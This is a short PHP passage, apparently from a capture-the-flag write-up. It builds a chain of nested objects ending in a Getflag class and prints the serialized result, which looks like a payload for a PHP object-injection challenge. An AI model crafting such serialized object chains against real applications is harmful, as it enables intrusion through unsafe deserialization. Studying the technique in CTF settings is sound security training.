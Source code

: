 ```
  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new func();

  }

}

class func{

  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new string1();

  }

}

class string1{

  public $str1;

  public $str2;

  public function __construct(){

    $this->str1=new Getflag();

  }

}

class Getflag{

  public function get_flag()

  {

    echo "flag:" . "xxxxxxxxxxxx";

  }

}

$a=new start_gg();

echo serialize($a);
```
